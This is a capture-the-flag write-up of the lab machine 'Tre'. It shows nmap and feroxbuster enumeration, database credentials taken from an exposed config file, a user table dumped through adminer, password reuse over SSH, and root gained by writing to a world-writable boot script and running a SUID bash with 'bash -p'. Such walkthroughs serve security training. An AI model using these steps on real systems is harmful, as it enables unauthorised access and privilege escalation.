# PG Play - Tre

#### Ip: 192.168.199.84
#### Name: Tre
#### Difficulty: Intermediate
#### Community Rating: hard

----------------------------------------------------------------------

### Enumeration

Lets scan the target using Nmap. Here I will use the `-p-` flag to scan all TCP ports, as well as the `-sC` and `-sV` flags to use basic scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/PG/Tre]
└─$ sudo nmap -p-  --min-rate 10000 192.168.199.84 -sC -sV 
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-20 14:15 CDT
Nmap scan report for 192.168.199.84
Host is up (0.11s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 991aead7d7b348809f88822a14eb5f0e (RSA)
|   256 f4f69cdbcfd4df6a910a8105defa8df8 (ECDSA)
|_  256 edb9a9d72d00f81bd399d602e5ad179f (ED25519)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Tre
|_http-server-header: Apache/2.4.38 (Debian)
8082/tcp open  http    nginx 1.14.2
|_http-title: Tre
|_http-server-header: nginx/1.14.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.70 seconds
```

Heading to the site on port 80 we find just an image:


If we kick off some directory fuzzing with Feroxbuster using:

```text
┌──(ryan㉿kali)-[~/PG/Tre]
└─$ feroxbuster --url http://192.168.199.84 -q -x php
```

We find some mantisbt directories. The `/config` directory seems especially interesting:


Heading to the page we find an index of files:



CLicking into `a.txt` we find some DB credentials. 



Trying these on the mantisbt page however, we find they are no good there:



Looking back at our running Feroxbuster scan, we see it has picked up an `/adminer.php` page:



Lets try the DB credentials we discovered earlier here:



Nice that worked:



In the SQL Command area of the page we can begin enumerating the database. After discovering a `mantis_user_table` I ran `select * from mantis_user_table` and discovered some more credentials:



Tre's 'realname' looks a bit like a password. Lets try it using SSH:

```text
┌──(ryan㉿kali)-[~/PG/Tre]
└─$ ssh tre@192.168.199.84                                
The authenticity of host '192.168.199.84 (192.168.199.84)' can't be established.
ED25519 key fingerprint is SHA256:1ZfYO3DGJA+iL5+oiLgoa4kQETeZ48YhrRrPnTvJb3A.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.199.84' (ED25519) to the list of known hosts.
tre@192.168.199.84's password: 
Linux tre 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
tre@tre:~$ whoami
tre
```

Cool, that worked! We can now grab the local.txt flag:



### Privilege Escalation

Running `sudo -l` to check Tre's permissions for sudo we see he can execute `shutdown`. Interesting.

```text
tre@tre:$ sudo -l
Matching Defaults entries for tre on tre:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User tre may run the following commands on tre:
    (ALL) NOPASSWD: /sbin/shutdown
``` 

Lets also load up LinPEAS to help out with more enumeration:



Linpeas finds that check-system is writable. We may be able to exploit this.



Double checking the permissions, we see it is owned by root but we have the ability to read and write to it:

```text
tre@tre:/usr/bin$ ls -la check-system
-rw----rw- 1 root root 135 May 12  2020 check-system
```

If we add the SUID bit to `/bin/bash` and then restart the machine using `sudo shutdown` when the machine reboots we should be able to easily get the root flag:



We can then shutdown the machine:

```text
tre@tre:/usr/bin$ sudo shutdown -r now
tre@tre:/usr/bin$ Connection to 192.168.199.84 closed by remote host.
Connection to 192.168.199.84 closed
```

Now if we SSH back in again we can run `/usr/bin/bash -p` and we will escalate to a root shell:

```text
┌──(ryan㉿kali)-[~/PG/Tre]
└─$ ssh tre@192.168.199.84
tre@192.168.199.84's password: 
Linux tre 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Sep 20 15:39:31 2023 from 192.168.45.246
-bash-5.0$ whoami
tre
-bash-5.0$ /usr/bin/bash -p
bash-5.0# whoami
root
bash-5.0# id
uid=1000(tre) gid=1000(tre) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),1000(tre)
```

We can now grab the final flag:



Thanks for following along!

-Ryan

----------------------------------------------


